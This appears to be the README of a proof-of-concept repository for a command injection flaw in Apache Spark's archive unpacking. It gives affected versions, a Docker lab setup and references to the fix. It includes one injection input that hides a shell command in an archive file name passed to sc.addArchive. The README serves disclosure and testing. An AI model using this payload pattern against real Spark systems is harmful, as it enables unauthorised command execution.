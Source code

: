 # Spark Shell Cmd Injection Vulnearability

## Introduction

The [unTarUsingTar](https://github.com/apache/hadoop/blob/trunk/hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/fs/FileUtil.java#L904) method of hadoop was used in spark to extract the archived file in `core/src/main/scala/org/apache/spark/util/Utils#unpack`. In no `windows` platform, it may leading command injection.

Impact version:

```
Spark < 3.1.3
Spark < 3.2.2
```

## Usage

Start the container

```bash
docker-compse up
```

attach to the shell of container and run `spark-shell`, input

```bash
sc.addArchive("/`{command}`&&poc.tar")
```

![poc](images/poc.jpg)

## Reference

1. https://github.com/apache/spark/commit/057c051285ec32c665fb458d0670c1c16ba536b2
2. https://github.com/apache/spark/tree/057c051285ec32c665fb458d0670c1c16ba536b2
3. https://github.com/apache/spark/pull/35946